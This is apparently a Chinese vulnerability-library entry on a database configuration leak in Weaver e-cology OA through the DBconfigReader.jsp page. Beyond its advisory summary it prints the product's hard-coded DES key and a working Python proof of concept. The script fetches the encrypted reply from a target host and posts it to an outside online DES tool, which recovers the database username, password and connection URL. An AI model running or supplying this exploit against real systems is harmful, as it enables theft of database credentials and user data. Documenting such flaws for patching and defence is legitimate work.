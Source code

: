 # 泛微OA DBconfigReader.jsp 数据库配置信息泄漏漏洞

# 泛微OA DBconfigReader.jsp 数据库配置信息泄漏漏洞

## 漏洞描述

2019年10月24日，360CERT监测到友商发布了泛微e-cology OA数据库配置信息泄漏漏洞预警，漏洞等级中。

攻击者可通过存在漏洞的页面直接获取到数据库配置信息。如果攻击者可直接访问数据库，则可直接获取用户数据，甚至可以直接控制数据库服务器。

360CERT判断漏洞等级为中，危害面/影响面低。建议使用泛微e-cology OA的用户及时安装最新补丁，以免遭受黑客攻击。

## 漏洞影响

```
目前已知为8.100.0531,不排除其他版本，包括不限于EC7.0、EC8.0、EC9.0版
```

## 漏洞复现

根据源码可以得到DES密钥为 1z2x3c4v5b6n（也有1z2x3c4v的,可以按此规律来爆破）

![image-20220209103714654](/images/202202091037951.png)



可以看到会将当前连接数据库的用户名密码，url，logintype等信息进行des加密，并最终进行返回，可以直接通过des解密获取泄露信息。



## 漏洞POC

[Github链接](https://github.com/ianxtianxt/ecologyExp.jar)

python代码



```python
import base64
import requests
import ast

def req(url):
	headers =  {
        'Content-Type':'application/x-www-form-urlencoded',
        'User-Agent':'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36',
        'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
    }

	r1 = requests.get(url,headers=headers).content
	s = r1.replace('\r\n','')
	res1 = base64.b64encode(s)
	
	postdata = {
		'data':res1,
		'type':'des',
		'arg':'m=ecb_pad=zero_p=1z2x3c4v_o=0_s=gb2312_t=1'
	}
	u = 'http://tool.chacuo.net/cryptdes'
	r2 = requests.post(u,data=postdata,headers=headers).content	
	res2 = ast.literal_eval(r2)
	
	return res2['data']

url = 'http://xxx.xxx.xxx.xxx:8888//mobile/DBconfigReader.jsp'
print req(url)
```



## 参考文章



[[更新\]泛微e-cology OA数据库配置信息泄漏漏洞预警](https://mp.weixin.qq.com/s/zTEUan_BtDDzuHzmd9pxYg)

